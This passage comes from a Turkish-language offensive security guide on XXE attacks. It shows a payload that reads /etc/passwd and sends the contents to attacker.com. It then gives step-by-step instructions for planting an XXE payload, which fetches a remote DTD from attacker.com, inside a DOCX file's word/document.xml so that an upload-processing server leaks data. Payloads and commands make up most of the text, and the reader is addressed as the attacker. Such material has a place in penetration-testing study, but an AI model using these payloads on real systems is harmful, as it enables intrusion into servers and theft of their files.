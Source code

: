- Hedef sunucuya yukarıdaki SOAP XML payload’u gönder.
- FTP, HTTP veya DNS loglarından veri sızdırıldığını kontrol et.

Hedef Sistem php değilse: 

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
```


### 99- XXE Inside DOCX file

`.docx`, `.xlsx`, `.pptx` gibi Office dosyaları **sadece metin dosyaları değildir** — aslında **ZIP arşividir.** İçerisinde XML dosyaları barındırır. Bu XML dosyaları Office içeriğini tanımlar.

**Senin amacın**: Bu XML’lerin birine XXE payload'ı enjekte ederek uygulamanın bu dosyayı işlerken arka planda bir `XML Parser` çalıştırmasını sağlamak.

##### Office Dosyasının İç Yapısı

Bir `.docx` dosyasını `.zip` uzantılı gibi düşün.

Örnek bir DOCX yapısı:

```
xxe.docx/
├── [Content_Types].xml
├── _rels/.rels
├── word/document.xml ← genellikle buraya payload konur
├── word/_rels/document.xml.rels
└── docProps/core.xml
```

1. Boş bir .docx dosyası oluştur

Word'de boş bir dosya kaydet: `xxe.docx`

2. Dosyayı `.zip` olarak yeniden adlandır ve aç

```
cp xxe.docx xxe.zip
unzip xxe.zip -d xxe_dir
cd xxe_dir
```

3. Payload'ı yerleştir

En sık kullanılan hedef: `word/document.xml`

Örnek Payload (XXE):

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE root [
  <!ENTITY % xxe SYSTEM "http://attacker.com/payload.dtd">
  %xxe;
]>
<w:document xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main">
  <w:body>
    <w:p>
      <w:r>
        <w:t>&exfil;</w:t>
      </w:r>
    </w:p>
  </w:body>
</w:document>
```
